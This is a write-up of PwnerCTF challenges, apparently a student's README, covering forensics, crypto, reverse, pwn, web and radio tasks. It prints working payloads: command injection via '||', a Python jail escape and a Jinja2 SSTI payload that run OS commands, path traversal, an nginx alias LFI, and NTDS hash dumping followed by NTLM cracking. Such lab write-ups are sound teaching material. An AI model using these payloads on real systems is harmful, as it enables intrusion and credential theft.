


# PwnerCTF

**Website :** [https://pwner.ovh/challenges](https://pwner.ovh/challenges)


**Description :** CTF created by Samy (THUCY) and Professors for WS and student presentation.

## **Table of Contents**

1. Forensics
	- [Hostname](#Hostname)
	- [Secret_Message](#Secret_Message)
	- [Secret_Sam](#Secret_Sam)
	- [ASREPRoasting](#ASREPRoasting)

2. Crypto
	- [Cochon](#Cochon)
	- [RSA](#RSA)

3. Reverse
	- [Regarder_au_bon_endroit](#Regarder_au_bon_endroit)
	- [challenge_2](#The_last_one)
	- [Ca_se_complique](#Ca_se_complique)

4. PWN
	- [Notre_nouvel_outil_de_diag](#Notre_nouvel_outil_de_diag)
	- [Serveur_DNS](#Serveur_DNS)
	- [Simple_Jail](#Simple_Jail)

5. Web
	- [Retour_vers_le_passe](#Retour_vers_le_passe)
	- [Spyce_Girl](#Spyce_Girl)
	- [Serveur_web_ultra_securise](#Serveur_web_ultra_securise)
	- [Flask&Furious](#Flask&Furious)

6. Radio
	- [Morse_Beginner](#Morse_Beginner)
	- [ASK_For_The_Flag](#ASK_For_The_Flag)
	- [Allo_Papa_Flag](#Allo_Papa_Flag)


## **Hostname**


**Challenge Description :** Quel est le nom du PC qui a été infecté?

### Approach

An `.pcap` file is given so I open it and filter with DHCP protocol and follow TCP flux:


**Flag :** `Froggy-PC`

## **Secret_Message**


**Challenge Description :** On a pu capturer le trafic réseau du PC d'un célèbre Beatmaker, d'après un gars qui bosse avec lui, les beats qu'il envoie à ses partenaires contiennent plus que de simples sons...

### Approach

An `.pcap` file is given so I open it and I see HTTP flux with downloaded data so I DL it on my desktop for analyse (.mp3):


With audacity and spectogram analyse I can read flag !


**Flag :** `ws{S3cr3t_MSG}`

## **Secret_Sam**


**Challenge Description :** Retrouvez le mot de passe de l'utilisateur admin ;)

### Approach

The file `ntds.dit` contains passwords of users in Windows. Let's use `secretsdump.py` and `hashcat` for find them:
```shell
secretsdump.py -ntds ntds.dit -system SYSTEM LOCAL > result.txt
```

Now select the `Administrator` (`Administrateur:500:aad3b435b51404eeaad3b435b51404ee:13b29964cc2480b4ef454c59562e675c:::`)hash for put it in other file and decrypt it: `echo "13b29964cc2480b4ef454c59562e675c" > hash.txt`

```shell
hashcat -m 1000 hash /usr/share/wordlists/rockyou.txt 
hashcat (v6.1.1) starting...

OpenCL API (OpenCL 1.2 pocl 1.6, None+Asserts, LLVM 9.0.1, RELOC, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=============================================================================================================================
* Device #1: pthread-11th Gen Intel(R) Core(TM) i5-11300H @ 3.10GHz, 61919/61983 MB (16384 MB allocatable), 8MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers applied:
* Zero-Byte
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Hash
* Single-Salt
* Raw-Hash

ATTENTION! Pure (unoptimized) backend kernels selected.
Using pure kernels enables cracking longer passwords but for the price of drastically reduced performance.
If you want to switch to optimized backend kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 66 MB

Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344391
* Bytes.....: 139921497
* Keyspace..: 14344384
* Runtime...: 1 sec

13b29964cc2480b4ef454c59562e675c:P@ssword        
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: NTLM
Hash.Target......: 13b29964cc2480b4ef454c59562e675c
Time.Started.....: Mon Dec 11 18:42:02 2023 (0 secs)
Time.Estimated...: Mon Dec 11 18:42:02 2023 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  8218.2 kH/s (0.18ms) @ Accel:1024 Loops:1 Thr:1 Vec:16
Recovered........: 1/1 (100.00%) Digests
Progress.........: 81920/14344384 (0.57%)
Rejected.........: 0/81920 (0.00%)
Restore.Point....: 73728/14344384 (0.51%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: college07 -> janmark

Started: Mon Dec 11 18:41:51 2023
Stopped: Mon Dec 11 18:42:03 2023
```

**Flag :** `ws{P@ssword}`

## **ASREPRoasting**


**Challenge Description :** Retrouvez le user `ASREPRoastable` ;)

### Approach

I know this challenge because `Root-Me` have the same in Forensics category. In fact the file given (`ldap.json`) is created by the tool `ldap2json` (https://github.com/p0dalirius/ldap2json) and this tool have and analysis script (I use it):

```ad-info
When requesting a TGT, the user must, by default, authenticate with the KDC for it to respond. It happens that this prior authentication is not requested for certain accounts, allowing an attacker to abuse this configuration. (DoesNotRequirePreAuth)
```

```shell
python3 analysis.py -f ../../ldap.json
[>] Loading ../../ldap.json ... done.
[]> object_by_property_name useraccountcontrol
...
[CN=Gina Nguyen,OU=DomainUsers,DC=anakin,DC=local] => userAccountControl
 - 512
[CN=Sean Strickland,OU=DomainUsers,DC=anakin,DC=local] => userAccountControl
 - 4194816
[CN=Donald Watkins,OU=DomainUsers,DC=anakin,DC=local] => userAccountControl
 - 512
...
```

In fact, `sean-strickland` user have an big different `userAccountControl` value. This name is representative when user have `DoesNotRequirePreAuth` active.

**Flag :** `ws{sean-strickland}`

## **Cochon**


**Challenge Description :** Trouvez le flag

### Approach

Here I can see chipertext and image of pig. I know this cipher, this is pigpen cipher so I can find translation of alphabet and decrypt message:



**Flag :** `KFNOKBHDBLEBSVJMRXKYOXDQZAEAH`

## **RSA**


**Challenge Description :** Le chiffrement RSA repose sur l’exponentiation modulaire de grands nombres. En utilisant les notations standards, calculez le “message” chiffré c correspondant au “message” en clair `m = 29092715682136811148741896992216382887663205723233009270907036164616385404410946789697601633832261873953783070225717396137755866976801871184236363551686364362312702985660271388900637527644505521559662128091418418029535347788018938016105431888876506254626085450904980887492319714444847439547681555866496873380` en utilisant la clé publique : `(n, e) = (115835143529011985466946897371659768942707075251385995517214050122410566973563965811168663559614636580713282451012293945169200873869218782362296940822448735543079113463384249819134147369806470560382457164633045830912243978622870542174381898756721599280783431283777436949655777218920351233463535926738440504017, 65537)`.
Le flag est FCSC{xxxx} où xxxx est remplacé par la valeur de c en écriture décimale.

### Approach

Thanks to python this challenge can be easly complete:

```python
c = pow(m,e,n)
```


**Flag :** `FCSC{43038584369552603099759673610132404954603129182365447300530480398332322363741719021427218282885888340427764617212360258625034642827465292074914623418386094167402748099928035759712951543068670333972608099203444196434250100760907677561414593941829935308834430903916897564884969367373487895789351212840634163159}`

## **Regarder_au_bon_endroit**


**Challenge Description :** Trouvez le flag!

### Approach
A reverse challenge which can be completed with `edb`. Execute step by step program with `F7` key and see flag:


**Flag :** `WSF{EasyOne}`

## **The_last_one**


**Challenge Description :** Il est là, le seul, l'unique, le dernier des vivants !

### Approach

Always do `strings` and `file` command with reverse CTF challenges. This allow me to see that `ELF` file is packed with `UPX`:
```shell
strings thelastone
...
$Info: This file is packed with the UPX executable packer http://upx.sf.net $
$Id: UPX 4.02 Copyright (C) 1996-2023 the UPX Team. All Rights Reserved. $
...
```

I have to an pack the file:
```shell
upx -d thelastone
```

Now this ghidra I can inspect speudo code:


I see the encoded flag and I decided to try to decode it: `Hnci{RcemgfUwtxkxqt}`.

That was an rotation with +2.

**Flag :** `Flag{PackedSurvivor}`

## **Ca_se_complique**


**Challenge Description :** Trouvez le flag !

### Approach

Also the same schema, read `strings` but nothing and open with `edb`. After first execution I see nothing interesting. Now I read the code and see a reference to pointer so I parameter `edb` for see the value when execution:


After multiple `F7` for execution step by step I can see the first letter of the flag:


At each loop the letter change and form the flag.

**Flag :** `WSF{DoubleXOR}`

## **Notre_nouvel_outil_de_diag**


**Challenge Description :** Notre prestataire nous a livré un nouvel outil nous permettant de diagnostiquer avec précision les problèmes réseau, mais avant de le mettre en prod j'aimerais que tu y jette un oeil afin d'être sûr qu'il est exempt de toute vulnérabilité.

### Approach

This challenge is a tool for ping, let's try paylaod for command injection with linux separators.

There is filter for `; & && |` separator but `||` pass with (note the `-z` for do an error with `ping` command and execute `ls`):
```python
Please enter the host you would like to ping: -z || ls
flag.txt
ping.py
```

Now I can read flag !
```python
Please enter the host you would like to ping: -z || cat flag.txt
ws{B4d_Pr3sta_H4ck3d}
```

**Flag :** `ws{B4d_Pr3sta_H4ck3d}`

## **Serveur_DNS**


**Challenge Description :** Arrivera-tu à t'échapper de la prison et trouver le flag ?

### Approach

Let's play with dig for resolve this challenge more precisely with transfer zone:
```shell
dig @challenges.pwner.ovh -p 33223 axfr pwner.ovh

; <<>> DiG 9.16.42-Debian <<>> @challenges.pwner.ovh -p 33223 axfr pwner.ovh
; (1 server found)
;; global options: +cmd
pwner.ovh.		604800	IN	SOA	ns.pwner.ovh. admin.pwner.ovh. 2 604800 86400 2419200 604800
pwner.ovh.		604800	IN	NS	ns.pwner.ovh.
pwner.ovh.		604800	IN	A	192.0.2.1
chall.pwner.ovh.	604800	IN	TXT	"ws{Y0ur3_L3ak3d_DNS}"
ns.pwner.ovh.		604800	IN	A	192.0.2.2
pwner.ovh.		604800	IN	SOA	ns.pwner.ovh. admin.pwner.ovh. 2 604800 86400 2419200 604800
;; Query time: 40 msec
;; SERVER: 46.101.133.19#33223(46.101.133.19)
;; WHEN: Sat Dec 09 20:31:09 CET 2023
;; XFR size: 6 records (messages 1, bytes 232)
```

**Flag :** `ws{Y0ur3_L3ak3d_DNS}`

## **Simple_Jail**


**Challenge Description :** Arrivera-tu à t'échapper de la prison et trouver le flag ?

### Approach

This challenge to espace the python sandbox but this sandbox don't allow to execute `import`, `os`, etc...

I found good article for resolve this challenge: https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/python-jails-escape/

```shell
print(getattr(getattr(globals()['__builtins__'], '__im'+'port__')('o'+'s'), 'sys'+'tem')('ls'))
__builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['SYSTEM'.lower()]('ls')

print(getattr(getattr(globals()['__builtins__'], '__im'+'port__')('o'+'s'), 'sys'+'tem')('cat flag.txt'))
__builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['SYSTEM'.lower()]('cat flag.txt')
```

**Flag :** `ws{Cr4ck3d_PyJ4il}`

## **Retour_vers_le_passe**


**Challenge Description :** Arriveras-tu à retourner dans le passé ?

### Approach

When I see the title of the challenge I can think about `git` (tool for develop and have history of the development).

In fact, I can add `/.git` for have Index of the folder. Now I can extract this with `git-dumper`:
```shell
git-dumper http://challenges.pwner.ovh:33181/.git .
```

With `git log` I can see precedent commits and do `git diff master <commit>`:


**Flag :** `ws{S3cr3t_G1t_P4ss}`

## **Spyce_Girl**


**Challenge Description :** Très simple, le flag est stocké à la racine : /flag1 Si besoin d'un peu d'aide, consulter la pièce jointe.

### Approach

This is `Spyce 2.1` website and is document. By little traveling is this documentation I find `/dump.spy?path=%2Fhome%2Fspwnce%2Fwww%2Fdocs%2Fexamples%2Fhello.spy` in URL and I try to get a path traversal vulnerability for see the flag. And bingo thi payload:
`?path=/flag1` allow me to find flag.

**Flag :** `ws{Sc4ry_Sp1c3}`

## **Serveur_web_ultra_securise**


**Challenge Description :** Un serveur web ultra sécurisé a été mis en place, mais il cache certaines choses... A toi de les retrouver.

### Approach

In this challenge I can see the nginx configuration in file given :
```
...
        location /flag {
            # First attempt to serve request as file, then
            # as directory, then fall back to index.php
            #try_files $uri $uri/ /index.php?q=$uri&$args;
            alias /var/www/html/flag/;
        }
...
```

There is `/flag` path but this last not finish by `/` so I can use a vulnerability of nignx (Alias LFI Misconfiguration[](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/nginx#alias-lfi-misconfiguration)).

I found this payload for see the flag: `/flag../flag.txt`

**Flag :** `ws{S3cuR3d_W3b_4pp}`

## **Flask&Furious**


**Challenge Description :** J'en ai eu marre des technos traditionnelles, c'est toujours plein de vulnérabilités... Avec mon nouveau site c'est fini ! C'est encore en plein développement mais je sais déjà que je peux l'exposer sans risque.

### Approach

When I see a Flask app and input user I can directly test SSTI vulnerability with the payload `{{7*'7'}}`.

And yes the result is `Hello, bienvenue 7777777, le site est encore en construction, reviens bientôt !`

Now I can use the following paylaod found on https://exploit-notes.hdks.org/exploit/web/framework/python/flask-jinja2-pentesting/: `{{ request.application.__globals__.__builtins__.__import__('os').popen('id').read() }}`

The result is:
`Hello, bienvenue ws{Fl4sk_R00t3d_with_N4me} , le site est encore en construction, reviens bientôt !

**Flag :** `ws{Fl4sk_R00t3d_with_N4me}`

## **Morse_Beginner**


**Challenge Description :** Dites simplement **FLAG** et c'est gagné ! Pensez à lancer le challenge juste en dessous...

### Approach

I just have to say FLAG in morse to have the flag:

```shell
nc challenges.pwner.ovh 32792
>>> ..-. .-.. .- --.
Bien joué, le flag est : ws{M0rs3_H4ck3r}
```

**Flag :** `ws{M0rs3_H4ck3r}`

## **ASK_For_The_Flag**


**Challenge Description :** Trouvez le FLAG dans le fichier en PJ.

### Approach

On internet I see the `urh` (Universal Radio Hacker) and I can analyse the `signal.iq` file with this tool:


I can modify Modulation for `ASK` and see bit chain:


Now I can decode it and find the flag !

**Flag :** `ws{R4d1o_H4ck3r}`

## **Allo_Papa_Flag**


**Challenge Description :** Papa Flag est au bout de la ligne, prêt à vous donner le flag ! Demandez-lui !

### Approach

 The goal of this challenge is to send file for tell to cal service (3615: Allo PAPA FLAG). I file may contain `FLAG` for receive the flag.

This is not simple, in fact letter can be write by number with numeric keyboard (https://en.wikipedia.org/wiki/T9_(predictive_text)).

So, FLAG is `33355524`:


But if I put that in file and test to upload it on server it doesn't work. In fact, there a technology to transit this data (DTMF).

https://fr.wikipedia.org/wiki/Code_DTMF 

There is frequencies use to transmit data. For that I have to create an `.wav` file with `33355524` frequencies to obtian the flag.

It's easy to do with https://www.audiocheck.net/audiocheck_dtmf.php

Now I have my `.wav` file and I can receive the flag after upload it.

**Flag :** `ws{P4p4_Fl4g_1n_D4_Pl4ce}`